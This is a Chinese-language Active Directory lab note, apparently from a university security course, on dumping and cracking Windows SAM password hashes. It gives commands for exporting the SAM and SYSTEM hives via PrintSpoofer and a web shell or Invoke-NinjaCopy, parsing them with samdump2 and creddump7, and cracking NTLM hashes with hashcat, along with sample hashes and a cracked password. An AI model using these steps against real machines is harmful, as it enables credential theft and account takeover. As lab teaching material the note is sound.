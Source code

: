 # NTUSTISC - AD Note - Lab(Brute Force SAM)
[TOC]

Lecture Video: [2022/05/04 AD 安全1](https://youtu.be/Cv2gNQkDM8Q?si=l1na5hFGpAPk6Uux&t=4257)

## Background
得到更高權限之後，會想要更多的密碼
* 密碼收集
    * SAM.hive(Security Account Manager)
        * What: 就是一個用於windows的數據庫文件，用於==儲存用戶的密碼==，並且對於本地端或遠端的使用者進行身分認證
        * Where: `C:\Windows\System32\config\SAM`
    * Password Spraying(用猜的)
    * GPO
    * 記憶體(lsass)
## Lab
### ==Brute Force SAM==
前面有提到SAM在哪裡，所以只要直接打開就看的到密碼了嗎?你會得到一個access denied的錯誤，原因是他已經被設定成read lock了，導致目前無法正常存取
![](https://hackmd.io/_uploads/SyEUVnMRn.png)

1. 匯出SAM File
主要目的就是把SAM file和SYSTEM file dump下來，而方法就是利用reg.exe(Windows註冊碼工具)，用指令的方式存取
    ```bash!
    $ reg save HKLM\SAM <save filename>
    $ reg save HKLM\SYSTEM <save filename>
    ```
    * 錯誤的方式
        但經過cmd用普通權限實測會發現我們沒有這樣的資格
        ```bash!
        $ reg save HKLM\SAM SAM.dump
        錯誤: 用戶端沒有這項特殊權限。
        ```
        其實也很合理，不然所有人都可以直接存取意味著只要摸到其中一臺普通權限的AD，所有機敏資料都會外洩，這就是為甚麼前面需要提權的原因，只有最高權限的帳戶可以存取這兩個file
    * 正確的方式-1
        用前面提到的web shell，打出以下指令，則SAM file就會dump到`C:\inetpub\wwwroot\sam.zip`
        ```bash!
        $ c:\tools\PrintSpoofer64.exe -c "reg save HKLM\SAM C:\inetpub\wwwroot\sam"
        ```
    * 正確的方式-2
        利用[Invoke-NinjaCopy.ps1](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-NinjaCopy.ps1)這個腳本，就可以複製出來，原理是使用windows的影子複製
        ```bash!
        $ .\Invoke-NinjaCopy -Path SAM -LocalDestination C:\tools\SAM_COPY
        ```
        但是經過實測，發現執行雖然有成功但是沒有任何檔案被dump出來，可能中間有些過程有誤?
        :::info
        如果要用這個方法，PowerShell要以管理員權限打開，然後如果有遇到如下error message，可以參考這邊[^ps-error-solution]解決問題
        ```bash
        .\Invoke-NinjaCopy : 因為這個系統上已停用指令碼執行，所以無法載入 C:\tools\Invoke-NinjaCopy.ps1 檔案。如需詳細資訊，請參閱 about_Execution_Policies，網址為 https:/go.microsoft.com/fwlink/?LinkID=135170。
        位於 線路:1 字元:1
        + .\Invoke-NinjaCopy -Path C:\Windows\System32\config\SAM -LocalDestina ...
        + ~~~~~~~~~~~~~~~~~~
            + CategoryInfo          : SecurityError: (:) [], PSSecurityException
            + FullyQualifiedErrorId : UnauthorizedAccess
        ```
        :::
2. 解析SAM內容
    拿到SAM的內容之後還需要解析他，可以用kali的samdump2解析
    * Win10 v1607之前的解法
        ```bash
        $ samdump2 system sam 
        Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
        *disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
        *disabled* :503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
        *disabled* :504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
        user:1001:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
        :1002:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
        ```
        ![](https://hackmd.io/_uploads/HyJXHazCn.png)
        可以看到很多都是disabled，就代表我們要用下面的解法
    * Win10 v1607之後
    因為這個版本之後有用到AES加密，所以可以用[Creddump7](https://github.com/CiscoCXSecurity/creddump7)，建議使用anaconda這樣的虛擬環境，不然直接用內建的virtualenv會出事，
        ```bash
        $ conda activate py2.7
        $ pip install pycrypto
        $ git clone https://github.com/CiscoCXSecurity/creddump7.git
        $ python pwdump.py system sam
        Administrator:500:aad3b435b51404eeaad3b435b51404ee:7ecffff0c3548187607a14bad0f88bb1:::
        Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
        DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
        WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:e3180c5331aad6ad1ac787749e6c4819:::
        user:1001:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
        low:1002:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
        ```
3. 解析Hash
    * 方法一：用online database
        接著就是把NTLM Hash丟到隨便的database看有沒有紀錄，例如[cmd5](https://www.cmd5.com/)，如果把最前面找到的`31d6cfe0d16ae931b73c59d7e0c089c0`會顯示空密碼，但我們都知道是錯的
        ![](https://hackmd.io/_uploads/SkKrp6zCn.png)
        而如果拿Creddump解析出來的`7ecffff0c3548187607a14bad0f88bb1`，就可以直接顯示出我們的密碼
        ![](https://hackmd.io/_uploads/H1ZAhpz02.png)
    * 方法二：爆字典檔
        在kali中的/usr/share/wordlists有一些字典檔可以用，例如rockyou等等，可以先用看看
        ```bash
        $ sudo gunzip /usr/share/wordlists/rockyou.txt.gz
        $ cp /usr/share/wordlists/rockyou.txt ./
        $ hashcat -a 0 -m 1000 ntlm.hash rockyou.txt --force
        ...
        31d6cfe0d16ae931b73c59d7e0c089c0:                         
        7ecffff0c3548187607a14bad0f88bb1:1qaz@WSX3edc
        ...
        ```

# Reference
[^ps-error-solution]:[PowerShell 「系統上已停用指令碼執行」解決方法](https://hackercat.org/windows/powershell-cannot-be-loaded-because-the-execution-of-scripts-is-disabled-on-this-system)